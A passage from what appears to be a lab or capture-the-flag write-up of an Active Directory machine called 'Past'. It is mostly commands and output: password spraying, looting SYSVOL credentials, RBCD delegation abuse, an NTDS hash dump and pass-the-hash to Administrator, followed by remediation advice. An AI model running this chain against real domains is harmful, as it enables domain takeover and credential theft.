SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [-] past.local\tyler:P@ssw0rd! STATUS_ACCOUNT_RESTRICTION 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [-] past.local\EC2AMAZ-A5O4OL8$:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [+] past.local\APPDEV01$:P@ssw0rd! 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [-] past.local\WEBDEV01$:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [-] past.local\DEV01$:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [-] past.local\ryan:P@ssw0rd! STATUS_LOGON_FAILURE 
```



*Spraying the cracked password across the user list, APPDEV01$ authenticates*

Only `APPDEV01$` authenticates against the password. We have `APPDEV01$:P@ssw0rd!`. With a domain account we collect BloodHound, and since NetExec's collector errors out we fall back to the Community Edition Python ingestor.

```
bloodhound-ce-python -d past.local -u 'APPDEV01$' -p 'P@ssw0rd!' -ns 10.0.30.204 -c all --zip
```

```
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: past.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: ec2amaz-a5o4ol8.past.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: ec2amaz-a5o4ol8.past.local
INFO: Found 7 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: EC2AMAZ-A5O4OL8.past.local
INFO: Done in 00M 15S
INFO: Compressing output into 20260814182056_bloodhound.zip
```



*APPDEV01$ outbound object control in BloodHound, nothing usable*

`APPDEV01$` has no useful outbound rights, so we keep enumerating from the account we have.

## Access as tyler

We re-check the shares as `APPDEV01$`.

```
nxc smb 10.0.30.204 -u 'APPDEV01$' -p 'P@ssw0rd!' --shares
```

```
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [*] Windows Server 2016 Datacenter 14393 x64 (name:EC2AMAZ-A5O4OL8) (domain:past.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [+] past.local\APPDEV01$:P@ssw0rd! 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [*] Enumerated shares
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  Share           Permissions     Remark
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  -----           -----------     ------
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  ADMIN$                          Remote Admin
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  C$                              Default share
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  IPC$            READ            Remote IPC
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  NETLOGON        READ            Logon server share 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  Share           READ            
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  SYSVOL          READ            Logon server share 
```



*APPDEV01$ now reading SYSVOL, which the guest session could not*

`APPDEV01$` now has READ on `SYSVOL`, which the guest session did not. We connect and look through it.

```
smbclient //10.0.30.204/sysvol -U 'APPDEV01$%P@ssw0rd!'
```

```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan 23 16:32:56 2026
  ..                                  D        0  Fri Jan 23 16:32:56 2026
  past.local                         Dr        0  Fri Jan 23 16:32:56 2026

                7863807 blocks of size 4096. 2611731 blocks available
smb: \> cd past.local
smb: \past.local\> dir
  .                                   D        0  Fri Jan 23 16:40:44 2026
  ..                                  D        0  Fri Jan 23 16:40:44 2026
  DfsrPrivate                      DHSr        0  Fri Jan 23 16:40:44 2026
  Policies                            D        0  Fri Jan 23 16:33:14 2026
  scripts                             D        0  Fri Jan 23 20:55:55 2026

                7863807 blocks of size 4096. 2611731 blocks available
smb: \past.local\> cd scripts
smb: \past.local\scripts\> dir
  .                                   D        0  Fri Jan 23 20:55:55 2026
  ..                                  D        0  Fri Jan 23 20:55:55 2026
  tyler_init.cmd                      A      238  Fri Jan 23 20:55:55 2026

                7863807 blocks of size 4096. 2611731 blocks available
smb: \past.local\scripts\> mget *
Get file tyler_init.cmd? y
getting file \past.local\scripts\tyler_init.cmd of size 238 as tyler_init.cmd (0.8 KiloBytes/sec) (average 0.8 KiloBytes/sec)
```



*Browsing SYSVOL over smbclient into the scripts folder and pulling tyler_init.cmd*

A logon script sits in the `scripts` directory. We download it and read it.

```
cat tyler_init.cmd
```

```
@echo off
REM Temporary dev helper - DO NOT REMOVE
REM Tyler auto-login helper

set TYLER_USER=tyler
set TYLER_PASS=5rtfgvb%RTFGVB

REM Fake ?use? of the vars so it looks intentional
echo Initializing dev environment for %TYLER_USER%...
```



*The tyler_init.cmd logon script on SYSVOL holding plaintext credentials for tyler*

The script hands us `tyler:5rtfgvb%RTFGVB`. We test it.

```
nxc smb 10.0.30.204 -u 'tyler' -p '5rtfgvb%RTFGVB' --shares
```

```
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [*] Windows Server 2016 Datacenter 14393 x64 (name:EC2AMAZ-A5O4OL8) (domain:past.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [-] past.local\tyler:5rtfgvb%RTFGVB STATUS_ACCOUNT_RESTRICTION 
```



*tyler rejected over NTLM with STATUS_ACCOUNT_RESTRICTION*

Without `-k`, NetExec authenticates over NTLM, and `tyler` comes back `STATUS_ACCOUNT_RESTRICTION` rather than a logon failure, which points at the account, not the password. We switch to Kerberos with `-k`.

```
nxc smb 10.0.30.204 -u 'tyler' -p '5rtfgvb%RTFGVB' --shares -k 
```

```
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [*] Windows Server 2016 Datacenter 14393 x64 (name:EC2AMAZ-A5O4OL8) (domain:past.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [+] past.local\tyler:5rtfgvb%RTFGVB 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [*] Enumerated shares
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  Share           Permissions     Remark
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  -----           -----------     ------
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  ADMIN$          READ            Remote Admin
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  C$              READ,WRITE      Default share
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  IPC$            READ            Remote IPC
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  NETLOGON        READ            Logon server share 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  Share           READ            
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  SYSVOL          READ            Logon server share 
```



*tyler validating over Kerberos with READ and WRITE on C$ after NTLM is refused*

Kerberos works and `tyler` picks up READ and WRITE on `C$`. Since the account only authenticates over Kerberos, we request a TGT and cache it for the tools ahead.

```
impacket-getTGT past.local/tyler:'5rtfgvb%RTFGVB'
```

```
export KRB5CCNAME=tyler.ccache
```



*Requesting a TGT for tyler and saving it to a ccache with impacket-getTGT*

## Access as Administrator

Back in the BloodHound graph, `tyler` holds `GenericAll` over the domain controller's computer object, `EC2AMAZ-A5O4OL8$`, and the collector flags a resource-based constrained delegation path.



*BloodHound GenericAll: tyler over EC2AMAZ-A5O4OL8*

Resource-based constrained delegation is an abuse of write access over a computer object. `GenericAll` on the domain controller's computer account lets us set its `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to a machine account we control, and any authenticated user can create one because the default machine account quota is ten. That attribute lets our machine account request a service ticket to the domain controller on behalf of any user through S4U (Service for User), so we impersonate a domain admin and get a ticket usable against the DC. We add the machine account first.

```
impacket-addcomputer past.local/tyler:'5rtfgvb%RTFGVB' -k -dc-ip 10.0.30.204 -computer-name 'ATTACKERMACHINE$' -computer-pass '0xB1rdWasHere1337!' -dc-host EC2AMAZ-A5O4OL8.past.local
```

```
[*] Successfully added machine account ATTACKERMACHINE$ with password 0xB1rdWasHere1337!.
```



*impacket-addcomputer creating the ATTACKERMACHINE$ machine account under the default quota*

With the account created, we write it into the delegation attribute on the domain controller.

```
impacket-rbcd -delegate-from 'ATTACKERMACHINE$' -delegate-to 'EC2AMAZ-A5O4OL8$' -action 'write' past.local/tyler:'5rtfgvb%RTFGVB' -k -dc-host EC2AMAZ-A5O4OL8.past.local
```

```
[*] Accounts allowed to act on behalf of other identity:
[-] SID not found in LDAP: S-1-5-21-1361116239-706371773-96491794-1118
[-] SID not found in LDAP: S-1-5-21-1361116239-706371773-96491794-1119
[-] SID not found in LDAP: S-1-5-21-1361116239-706371773-96491794-1120
[*] Delegation rights modified successfully!
[*] ATTACKERMACHINE$ can now impersonate users on EC2AMAZ-A5O4OL8$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[-] SID not found in LDAP: S-1-5-21-1361116239-706371773-96491794-1118
[-] SID not found in LDAP: S-1-5-21-1361116239-706371773-96491794-1119
[-] SID not found in LDAP: S-1-5-21-1361116239-706371773-96491794-1120
[*]     ATTACKERMACHINE$   (S-1-5-21-1361116239-706371773-96491794-1610)
```



*impacket-rbcd writing ATTACKERMACHINE$ into the delegation attribute on the domain controller*

The delegation is set. `impacket-getST` reads the `KRB5CCNAME` environment variable automatically, and that variable still points at `tyler`'s ticket, so we unset it first to force a fresh authentication as our machine account. We then request a service ticket for `cifs/EC2AMAZ-A5O4OL8.past.local` while impersonating `Administrator`.

```
unset KRB5CCNAME 
```

```
impacket-getST -spn 'cifs/EC2AMAZ-A5O4OL8.past.local' -impersonate 'Administrator' 'past.local/ATTACKERMACHINE$:0xB1rdWasHere1337!'
```

```
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_EC2AMAZ-A5O4OL8.past.local@PAST.LOCAL.ccache
```



*impacket-getST running the S4U exchange to obtain a cifs ticket as Administrator*

We point `KRB5CCNAME` at the new ticket and validate it.

```
export KRB5CCNAME=Administrator@cifs_EC2AMAZ-A5O4OL8.past.local@PAST.LOCAL.ccache 
```

```
nxc smb 10.0.30.204 -u Administrator -k --use-kcache --shares
```

```
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [*] Windows Server 2016 Datacenter 14393 x64 (name:EC2AMAZ-A5O4OL8) (domain:past.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [+] past.local\Administrator from ccache (Pwn3d!)
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [*] Enumerated shares
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  Share           Permissions     Remark
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  -----           -----------     ------
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  ADMIN$          READ,WRITE      Remote Admin
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  C$              READ,WRITE      Default share
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  IPC$            READ            Remote IPC
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  NETLOGON        READ,WRITE      Logon server share 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  Share           READ            
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  SYSVOL          READ,WRITE      Logon server share 
```



*NetExec authenticating as Administrator from the S4U ticket, tagged Pwn3d!*

The ticket works, and NetExec's `(Pwn3d!)` marks administrative access on the host. That host is the domain controller, so we now control the domain.

## NTDS Dump

NetExec never touches NTDS.dit directly. It asks the DC to replicate the account we name, the same way domain controllers sync with each other, which is why administrative rights on the DC are all we need. `--user Administrator` scopes what prints, not what gets read.

```
nxc smb 10.0.30.204 -u Administrator -k --use-kcache --ntds --user Administrator
```

```
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [*] Windows Server 2016 Datacenter 14393 x64 (name:EC2AMAZ-A5O4OL8) (domain:past.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [+] past.local\Administrator from ccache (Pwn3d!)
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31592a42841d0a9e74f93c41d8884cd0:::
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [+] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/ntds/EC2AMAZ-A5O4OL8_10.0.30.204_2026-08-14_143003.ntds of which 1 were added to the database
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.0.30.204     445    EC2AMAZ-A5O4OL8  [*] grep -iv disabled /home/kali/.nxc/logs/ntds/EC2AMAZ-A5O4OL8_10.0.30.204_2026-08-14_143003.ntds | cut -d ':' -f1
```



*NTDS dump scoped to the Administrator account, NT hash recovered*

We recover the `Administrator` NT hash `31592a42841d0a9e74f93c41d8884cd0`.

## Shell as Administrator (root.txt)

NTLM authenticates with the hash itself, so there is nothing left to crack. We pass it to Evil-WinRM for an interactive session and read root.txt.

```
evil-winrm -i '10.0.30.204' -u 'Administrator' -H '31592a42841d0a9e74f93c41d8884cd0'
```



*Evil-WinRM session as Administrator with root.txt listed on the desktop*

One credential is still outstanding, `ryan`'s password. Administrator sessions leave a trail, so we check where PowerShell stores its history.

```
(Get-PSReadLineOption).HistorySavePath
```

```
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ServerRemoteHost_history.txt
```

We browse to that directory.

```
cd C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\
```

We read `ConsoleHost_history.txt` from that directory.

```
type ConsoleHost_history.txt
```

```
net user ryan 1qaz3edc!QAZ#EDC /add
net localgroup administrators /add ryan
exit
net computer
Get-ADComputer -Filter * | Select-Object Name
net use \\dev01\c$
whoami
id
net localgroup administrators
net group "domain admins"
exit
```



*ryan's password left in the Administrator console history from a net user command*

The history holds the `net user` command that created `ryan`, plaintext password included, and the domain is fully compromised.

## Final Thoughts

Past starts with no credentials at all, and the guest session carried more than I expected: a full domain user list and a Kerberoast of every SPN, none of it requiring authentication. The account that slowed me down was `tyler`, which refuses NTLM outright, so every command against it had to run through Kerberos with a ccache.

Guest and anonymous SMB access should be off everywhere, not just on domain controllers; it handed over the user list and the roast. SYSVOL is readable by every authenticated user, so a logon script there should never carry a plaintext credential. `tyler`'s `GenericAll` over the domain controller is the last piece, and object-level rights like these need auditing on a schedule rather than at build time. The roast only landed because a pre-staged computer account carried a weak, hand-set password, where a random machine password would have produced nothing crackable.

— 0xB1rd
